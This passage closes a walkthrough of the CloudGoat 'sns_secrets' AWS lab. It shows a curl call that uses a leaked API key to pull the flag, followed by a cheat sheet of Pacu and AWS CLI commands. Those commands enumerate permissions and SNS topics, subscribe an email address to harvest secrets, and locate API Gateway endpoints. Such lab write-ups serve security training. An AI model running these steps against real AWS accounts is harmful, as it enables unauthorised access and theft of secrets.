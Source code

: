 ## Call the Api

To construct the link we're going to target, use this format: 

https://ID.execute-api.us-east-1.amazonaws.com/STAGENAME/PATH 

Mine was `https://696zi4tra7.execute-api.us-east-1.amazonaws.com/prod-cgidth6ftmf8pq/user-data`. Yours should be similar. 

Now we can call it by passing in the api key using curl: `curl -v -H "x-api-key: 45a3da610dc64703b10e273a4db135bf" https://696zi4tra7.execute-api.us-east-1.amazonaws.com/prod-cgidth6ftmf8pq/user-data`

And you'll get your flag!

# Conclusion

This was an interesting lab where I had to use a lot of the documentation and playing around to get the right commands. We started by enumerating SNS and subscribing ourself to a topic. Using that we found an API key which we could then use the look into the Api gateway and grab our flag. 

*Don't forget to destroy your lab after!*

```bash
cloudgoat destroy sns_secrets
```



# Cheat Sheet

To close off, here's a quick summary of the commands we needed to run to complete this module. If you're ever coming back to this and just need that one command, this is the section to check.

```bash
#Start Up
cloudgoat create sns_secrets
aws configure --profile sns_low

#Pacu our permissions
pacu
import_keys sns_low
run iam__enum_permissions
whoami
exit

#Enumerate SNS
aws sns list-topics --profile sns_low
aws sns list-subscriptions-by-topic --topic-arn arn:aws:sns:us-east-1:381491899745:public-topic-cgidth6ftmf8pq --profile sns_low
aws sns get-topic-attributes --topic-arn arn:aws:sns:us-east-1:381491899745:public-topic-cgidth6ftmf8pq --profile sns_low   

#Subscribe 
aws sns subscribe --topic-arn arn:aws:sns:us-east-1:381491899745:public-topic-cgidth6ftmf8pq --protocol email --region us-east-1 --profile sns_low --notification-endpoint unrealperson50@gmail.com

#Alternatively using pacu
pacu
run sns__enum --region us-east-1
data iam 
run sns__subscribe

#Find the api
aws apigateway get-rest-apis --profile sns_low
aws apigateway get-resources --rest-api-id 696zi4tra7 --region us-east-1 --profile sns_low
```